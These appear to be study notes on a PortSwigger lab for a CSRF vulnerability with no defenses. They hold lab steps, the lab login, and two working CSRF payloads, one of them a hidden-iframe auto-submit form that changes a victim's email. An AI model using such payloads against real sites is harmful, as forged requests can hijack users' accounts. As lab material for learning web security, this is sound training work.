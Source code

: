 [CSRF](https://www.hackingarticles.in/understanding-the-csrf-vulnerability-a-beginners-guide/)
## **1. CSRF vulnerability with no defenses**
This lab's email change functionality is vulnerable to CSRF.
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. If you're using [Burp Suite Professional](https://portswigger.net/burp/pro), right-click on the request and select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".
    Alternatively, if you're using [Burp Suite Community Edition](https://portswigger.net/burp/communitydownload), use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".
    `<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> <script> document.forms[0].submit(); </script>`
    
3. Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".
4. To verify that the exploit works, try it on yourself by clicking "View exploit" and then check the resulting HTTP request and response.
5. Change the email address in your exploit so that it doesn't match your own.
6. Click "Deliver to victim" to solve the lab.

Vulnerable parameter - email change functionality
Goal - exploit the CSRF vulnerability and change the email address
creds - wiener:peter

In order for a CSRF attack to be possible:
- A relevant action - email change functionality
- Cookie based session handling - session cookie
- No unpredictable request parameters - **satisfied** (****no csrf token is present)**

![[Pasted image 20240920205439.png]]

- HTML payload (form action= "https://HOST/POST")
```
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acb91feb1e053ea78076271500a20022.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```
